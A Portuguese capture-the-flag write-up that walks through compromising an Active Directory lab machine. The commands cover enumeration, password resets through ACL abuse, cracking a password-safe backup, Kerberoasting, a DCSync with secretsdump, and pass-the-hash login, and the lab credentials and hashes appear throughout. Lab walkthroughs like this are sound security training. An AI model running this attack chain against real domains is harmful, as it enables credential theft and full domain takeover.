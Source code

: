 #Difficult : Medium
#OS : Linux
#Info : As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: ``Olivia`` Password: ``ichliebedich``
***
# Port Scanning
Como sempre começamos escaneando as portas abertas na máquina para termos uma noção de quais serviços estão rodando na máquina.
```bash
nmap 10.10.11.42 -sC -Pn -sV -A -oN nmap_output_tcp
```
![[Pasted image 20250410175652.png]]
Encontramos alguns serviços  sendo os mais interessantes `FTP : 21`, `SMB : 445`, `LDAP : 389` e `kerberos : 88`.
***
# FTP and SMB Recon
Agora faço a enumeração do `FTP` e `SMB` para ver se tenho acesso e se há algo de importante.
```bash
netexec ftp 10.10.11.42 -u 'olivia' -p 'ichliebedich'

netexec smb 10.10.11.42 -u 'olivia' -p 'ichliebedich' --shares
```
![[Pasted image 20250410182955.png]]
Aparentemente não temos acesso ao `FTP` nem acesso a alguma pasta interessante no `SMB`.
***
# Lateral Movement
Primeiro faço um mapeamento de quais usuários regulares existem no sistema.
```bash
evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

ls ../../
```
![[Pasted image 20250410201913.png]]
Aparentemente só temos 2 usuários regulares : `olivia` | `emily`.

Agora fazemos o mapeamento das relações do `AD` e analisamos no `BloodHound`.
```bash
mkdir hound_collection && hound_collection
bloodhound-python -u 'Olivia' -p 'ichliebedich' -d 'administrator.htb' -ns '10.10.11.42' -c All
```
![[Pasted image 20250410184015.png]]

``Olivia`` tem permissão `GenericAll` sob `Michael`, o que nos permite definirmos sua senha. Podemos trocar e já verificar suas permissões.
![[Pasted image 20250410184548.png]]
```bash
bloodyAd --host 'administrator.htb' -u 'olivia' -p 'ichliebedich' set password 'michael' '12345678'
```
![[Pasted image 20250410190409.png]]

`Michael` tem permissões de `ForceChangePassword` sob `Benjamin`, o que também nos permite trocar sua senha. Então novamente podemos trocar a senha.
![[Pasted image 20250410185238.png]]
```bash
bloodyAd --host 'administrator.htb' -u 'michael' -p '12345678' set password 'benjamin' '12345678'
```
![[Pasted image 20250410190428.png]]

`Benjamin` não tem permissões interessantes para usarmos.
![[Pasted image 20250410201554.png]]
***
# Password Database Cracking
Agora que temos mais dois usuários, podemos verificar novamente o `FTP` e `SMB`.
```bash
cd ../
echo 'michael\nbenjamin' > users.list

netexec smb 10.10.11.42 -u ./users.list -p '12345678' --shares

netexec ftp 10.10.11.42 -u ./users.list -p '12345678' --ls
```
![[Pasted image 20250410191820.png]]
No caso do `SMB`  não temos acesso a pastas interessantes, mas no caso do `FTP` temos acesso a um arquivo de backup de senhas.

Esses arquivos costumam ser protegidos por senhas, então baixamos e extraímos o hash da senha para usarmos como o `john`.
```bash
netexec ftp 10.10.11.42 -u 'benjamin' -p '12345678' --get 'Backup.psafe3'

pwsafe2john Backup.psafe3 > backup.hash
john --format=pwsafe backup.hash --wordlist=../rockyou.txt
john backup.hash --show
```
![[Pasted image 20250410192903.png]]

Agora podemos abrir o arquivo e usarmos a senha que acabamos de conseguir.
```bash
pwsafe ./Backup.psafe3
```
![[Pasted image 20250410193321.png]]

Como o usuário `emily` é o único que existe no sistema, começamos copiando sua senha e fazendo logon no sistema.
![[Pasted image 20250410193435.png]]

Agora que temos a senha de `emily` podemos logar.
```bash
evil-winrm -i 10.10.11.42 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

ls ../Desktop
```
![[Pasted image 20250410193756.png]]
Conseguimos a flag de usuário.
***
# Kerberoasting 
Também podemos vemos suas permissões no `BloodHound`.
![[Pasted image 20250410194313.png]]
`Emily` tem permissões de `GenericWrite` sob `ethan`, o que nos permite um `Kerberoasting`.

Primeiro executamos o `Kerberoasting` para obtermos o `TGS` de `ethan`, e em seguida quebramos a hash com o `hashcat`.
```bash
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
![[Pasted image 20250410195020.png]]

Obtivemos um erro de horário, o Kerberos é muito chato em relação a isso. Podemos então sincronizar nosso horário com o `DC`.
```bash
timedatectl set-ntp off
rdate -n 10.10.11.42
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
![[Pasted image 20250410195819.png]]

Agora jogamos o hash `TGS` em um arquivo `ethan.tgs` e quebramos com o `hashcat`.
```bash
hashcat -m 13100 ./ethan.tgs ../rockyou.txt --show
```
![[Pasted image 20250410200130.png]]
***
# PRIV ESC - DCSync
Agora que temos a senha de `ethan` vamos ver suas permissões no `BloodHound`.![[Pasted image 20250410200505.png]]

`Ethan` tem permissões `GetChanges` e `GetChangesAll` sob `administrator.htb`, a combinação dessas duas permissões nos possibilita executar um `DCSync`. 

Usarei o `impacket-secretsdump` que se utiliza do `DCSync` para obter as `hashes` dos usuários e pegar a `hash` do usuário `Administrator`.
```bash
impacket-secretsdump "administrator.htb/ethan:limpbizkit"@"dc.administrator.htb"
```
![[Pasted image 20250410201051.png]]

Então podemos logar como `Administrator` e obter a flag.
```bash
evil-winrm -i 10.10.11.42 -u administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"
```
![[Pasted image 20250410201211.png]]

**Owned!**
***

![[Pasted image 20250410201318.png]]
